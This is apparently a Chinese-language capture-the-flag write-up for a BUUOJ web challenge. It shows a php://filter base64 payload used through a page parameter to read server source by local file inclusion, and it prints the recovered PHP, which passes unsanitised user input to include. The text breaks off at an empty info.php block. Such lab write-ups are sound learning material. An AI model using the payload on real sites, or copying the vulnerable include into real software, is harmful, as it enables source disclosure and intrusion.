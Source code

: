 发现url长这样
`buuoj.cn:81/user.php?page=guest`
尝试伪协议读源码`?page=php://filter/read=convert.base64-encode/resource=user.php`

发现没结果，可能是自动加.php后缀，于是改为
`?page=php://filter/read=convert.base64-encode/resource=user`
user.php

```php

<?php
require_once("function.php");
if( !isset( $_SESSION['user'] )){
    Header("Location: index.php");

}
if($_SESSION['isadmin'] === '1'){
    $oper_you_can_do = $OPERATE_admin;
}else{
    $oper_you_can_do = $OPERATE;
}
//die($_SESSION['isadmin']);
if($_SESSION['isadmin'] === '1'){
    if(!isset($_GET['page']) || $_GET['page'] === ''){
        $page = 'info';
    }else {
        $page = $_GET['page'];
    }
}
else{
    if(!isset($_GET['page'])|| $_GET['page'] === ''){
        $page = 'guest';
    }else {
        $page = $_GET['page'];
        if($page === 'info')
        {
//            echo("<script>alert('no premission to visit info, only admin can, you are guest')</script>");
            Header("Location: user.php?page=guest");
        }
    }
}
filter_directory();
//if(!in_array($page,$oper_you_can_do)){
//    $page = 'info';
//}
include "$page.php";
?>
```

index.php

```php

<?php
require_once "function.php";
if(isset($_SESSION['login'] )){
    Header("Location: user.php?page=info");
}
else{
    include "templates/index.html";
}
?>
```
info.php
```php
```